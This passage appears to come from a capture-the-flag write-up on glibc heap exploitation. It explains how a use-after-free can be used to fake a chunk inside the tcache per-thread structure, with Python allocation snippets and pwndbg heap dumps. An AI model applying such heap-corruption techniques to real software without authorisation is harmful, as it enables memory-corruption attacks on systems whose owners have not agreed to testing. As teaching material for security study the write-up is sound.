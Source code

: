 ```
0x30 [  1]: 0x5586b5c702e0 ◂— 0x0
0x40 [  1]: 0x5586b5c70310 ◂— 0x0
0x70 [  1]: 0x5586b5c70350 ◂— 0x0
0x80 [  1]: 0x5586b5c703c0 ◂— 0x0
0x90 [  1]: 0x5586b5c70440 ◂— 0x0
```

We can see that each t-cache entry has a `1` set in the `per-thread cache`, followed further down by a `pointer` to said entry.

##### The plan

The largest `t-cache entry` is `0x408`, which will be placed right above `0x18` and `0x28`'s pointers.

This sparks an idea.

What if we used our `UAF` to fake a chunk in the `per-thread cache` right under the entries count section, using `0x18` and `0x28` as `foward pointer (FWD)` and `backward pointer (BCK)`?

The idea is simple. `Allocate` and `free` two chunks of size `0x3d8` and `0x3e8`.
This will write the bits `0x0000000000010001`, which could be interpreted from `libc's` point of view as a chunk of size `0x10000`. Now if we also `allocate` and `free` two other chunks in `0x18` and `0x28`, we get a heap setup that looks like the following:
```python
[...]
free(malloc(0x18, b'.'))
free(malloc(0x28, b'.'))

free(malloc(0x3d8, b'.'))
free(malloc(0x3e8, b'.'))
```
```
pwndbg> vis 90

0x56355a945000	0x0000000000000000	0x0000000000000291	................
0x56355a945010	0x0000000000010001	0x0000000000000000	................
0x56355a945020	0x0000000000000000	0x0000000000000000	................
0x56355a945030	0x0000000000000000	0x0000000000000000	................
0x56355a945040	0x0000000000000000	0x0000000000000000	................
0x56355a945050	0x0000000000000000	0x0000000000000000	................
0x56355a945060	0x0000000000000000	0x0000000000000000	................
0x56355a945070	0x0000000000000000	0x0000000000000000	................

# This looks like a malloc chunk -------|
										v
0x56355a945080	0x0000000000000000	0x0000000000010001	................
0x56355a945090	0x000056355a9452c0	0x000056355a9452e0	.R.Z5V...R.Z5V..
0x56355a9450a0	0x0000000000000000	0x0000000000000000	................

```

The important part here is that a chunk can now be faked from `libc's` perspective, provided a bit more work is put in:
```
pwndbg> try_free 0x56355a945090
General checks
Not mapped checks
double free or corruption (!prev) -> next chunk's previous-in-use bit is 0

free(): invalid next size (normal) -> next chunk's size not in [2*size_sz; system_mem]
next chunk's size is 0x0, 2*size_sz is 0x10, system_mem is 0x21000
Next chunk is not top chunk
Forward consolidation
Doing malloc_consolidate and systrim/heap_trim
----------
Errors found!
```